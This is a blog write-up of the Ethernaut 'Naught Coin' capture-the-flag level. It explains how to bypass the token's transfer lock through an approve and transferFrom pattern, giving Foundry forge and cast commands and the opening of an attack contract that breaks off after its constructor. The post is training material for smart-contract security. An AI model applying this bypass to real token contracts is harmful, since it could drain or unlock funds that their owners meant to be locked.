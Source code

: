 ```yaml
---
layout: post
title:  "Ethernaut Series: Part II"
date:   2022-09-14
categories: 
---
```

* TOC 
{:toc}
This is the second half of the [Ethernaut](https://ethernaut.openzeppelin.com/) series notes on how I solved each level using Foundry. For the first half, please see the [previous post](http://axucar.ca/2022/09/13/ethernaut-series/). The contracts deployed to solve the challenges, as well as test scripts, can be found on my [Github](https://github.com/axucar/ethernaut-foundry/).

****
# Naught Coin

Since `NaughtCoin` is an `ERC20` token, we can use `transferFrom` instead of `transfer` (see [Openzeppelin docs](https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20-transferFrom-address-address-uint256-)). Steps are:
- Deploy attack contract below, which will send tokens via `transferFrom` from `msg.sender` to another arbitrary address (e.g. `0xA36f37e54180d59A9eC172d0f4A5F6c5Ba4F04A3` in my case)
    - `forge create src/AttackNaughtCoin.sol:AttackNaughtCoin --verify --constructor-args <challenge_addr>`
- Set a maximum allowance for the attacker to move funds on behalf of `player` by calling `contract.approve(spender,amount)` on the `NaughtCoin` contract from `player`, where we set `spender` to be the attacker contract we deployed
    - `cast send <challenge_addr> "approve(address, uint256)" <attacker_addr> 1000000000000000000000000`        
    - Note that we cannot call `approve` from the attack contract, since `owner` is defined as `msg.sender` in the approve function of `ERC20.sol`, which needs to be `player` (since only player has the tokens). After approving the attack contract with the transfer rights, we can use the attacker contract to move the funds.
    - When we call `contract.transferFrom(player,to,amount)` inside the attack contract, it requires that `contract.allowance(player, msg.sender)` is large enough, ie. the signer `msg.sender` has the rights to move funds. In this case, `msg.sender` is the attack contract address
- Call `attack()` on the attack contract
    - `cast send <attacker_addr> "attack()"`

```solidity
pragma solidity ^0.8.10;

interface INaughtCoin {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) external returns (bool);    
    function allowance(address owner, address spender) external view returns (uint256);
}

contract AttackNaughtCoin {
    address public victim;
    INaughtCoin public nc;

    constructor(address _victim) {
        victim = _victim;        
        nc = INaughtCoin(victim);                
    }

```